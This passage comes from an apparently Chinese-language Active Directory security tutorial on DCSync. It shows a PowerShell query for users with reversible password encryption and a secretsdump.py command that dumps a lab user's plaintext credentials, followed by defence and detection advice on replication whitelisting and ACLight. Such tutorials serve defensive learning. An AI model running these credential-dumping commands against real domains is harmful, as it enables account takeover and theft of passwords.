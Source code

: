 使用如下 powershell 语句执行如下命令即可筛选出域内启用“使用可逆加密存储密码”属性的用户了。

```
Get-ADUser -Filter ‘useraccountcontrol -band 128’ -Properties useraccountcontrol | Format-Table name, samaccountname,useraccountcontrol
```

如图所示，筛选出 test 用户。

![截图](285ddf637044f10c008aca65f540e469.png)

然后使用 secretsdump.py 脚本执行如下命令获取 test 用户的凭据。

```
python3 secretsdump.py xie/test:P@ss1234@10.211.55.4 -dc-ip 10.211.55.4 -just-dc-user test
```

如图所示，可以看到，已经获取到 test 用户的明文凭据了

![截图](99c7d28ddbde6c52ce30d0f92378a290.png)

## DCSync 防御与攻击检测

### 1.DCSync 防御

由于 DCSync 攻击的原理是模拟域控制器向另外的域控制器发起数据同步请求。因此，可以配置网络安全设备过滤流量设置白名单，只允许指定白名单内的域控制器 ip 请求数据同步。如图所示，使用 WireShark 抓包可以看到 DCSync 过程中的攻击者机器向域控制器 10.211.55.4 发送了大量的数据包。

![截图](2e511ca96a2654598053f146a1ebb112.png)

### 2.DCSync 攻击检测

- 可以在网络安全设备上检测来自白名单以外的域控制器数据同步复制。
- 使用工具检测域内具备 DCSync 权限的用户，可以使用 adfind 也可以使用下面 ACLight 工具，该工具输出的结果比较直观。

如图所示，执行 Execute-ACLight2.bat 文件。
